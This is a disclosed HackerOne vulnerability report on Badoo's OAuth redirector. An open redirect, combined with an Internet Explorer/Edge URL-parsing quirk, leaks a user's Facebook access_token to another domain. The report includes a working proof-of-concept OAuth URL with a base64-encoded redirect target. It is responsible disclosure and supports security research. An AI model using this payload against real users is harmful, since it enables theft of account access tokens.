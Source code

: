 # Open redirect helps to steal Facebook access_token

## Report Details
- **Report ID**: 99435
- **URL**: https://hackerone.com/reports/99435
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-11-13T07:41:23.129Z
- **Disclosed**: 2017-08-31T10:23:49.717Z

## Reporter
- **Username**: stefanovettorazzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: bumble

## Vulnerability Information
__Description__

https://badoo.com/external/redirector.phtml is the endpoint used when authenticating using external services. This endpoint accepts the parameter _state_ which is a base64 encoded URL. The URL can't be like http://google.com/, but it can be like http://google.com%2f.badoo.com/ which is a valid URL for Internet Explorer (11 and Edge).
The problem is that Facebook redirects to the value of _redirect_uri_ even if the URL contains parameters (like `?parameter=value`), which is not the case with Google. So, for instance you can send the _access_token_ returned from Facebook to any domain that you control.

__Proof of concept__

1. Using a user that already linked the account with Facebook, go to https://www.facebook.com/v2.2/dialog/oauth?response_type=token&display=popup&client_id=107433747809&redirect_uri=https%3A%2F%2Fbadoo.com%2Fexternal%2Fredirector.phtml%3fstate%3daHR0cHM6Ly93d3cuZ29vZ2xlLmNvbSUyZi5iYWRvby5jb20v
2. You are redirected to https://www.google.com/.badoo.com/#access_token=[user_access_token]&expires_in=[number].

This issue is only reproducible on Internet Explorer 11 and Edge. I tested on both using a Windows 10 installation with latest updates.
I hope the explanation is clear. Please, let me know if you need more information or a better proof of concept.

## Attachments
No attachments
